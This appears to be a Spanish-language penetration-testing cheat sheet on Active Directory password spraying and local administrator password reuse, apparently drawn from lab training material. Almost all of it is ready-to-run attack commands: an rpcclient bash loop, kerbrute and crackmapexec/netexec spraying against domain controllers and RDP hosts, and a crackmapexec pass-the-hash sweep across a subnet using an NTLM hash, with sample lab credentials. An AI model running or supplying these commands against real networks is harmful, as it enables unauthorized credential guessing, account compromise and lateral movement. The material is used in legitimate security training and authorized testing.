 # INTERNAL PASSWORD SPRAYING
Luego de generar una lista de users previamente enumerados:

##### BASH ONELINER RCPCLIENT:
    for u in $(cat <lista_users>);do rpcclient -U "$u%<pass>" -c "getusername;quit" <ip_DC> | grep Authority; done

##### KERBRUTE:
    kerbrute passwordspray -d <dominio> --dc <ip_dc> <lista_users>  <pass>

##### CRACKMAPEXEC:
    sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

##### Podemos después usar crackmapexec para probar si los positivos no son falsos:
    sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

##### Netexec

    netexec rdp 10.129.229.0/24 -u helen -p 'RedRiot88' -d inlanefreight.local

# LOCAL ADMINISTRATOR PASSWORD REUSE
Si conseguimos privilegios administrativos y conseguimos el NTML o el password en texto plano del admin, podemos usarlo para loguearnos en otros hosts en la red.
Usualmente se usa la misma para todas debido a las Golden images y para un manejo más facil de todas las pc del realm.

    sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
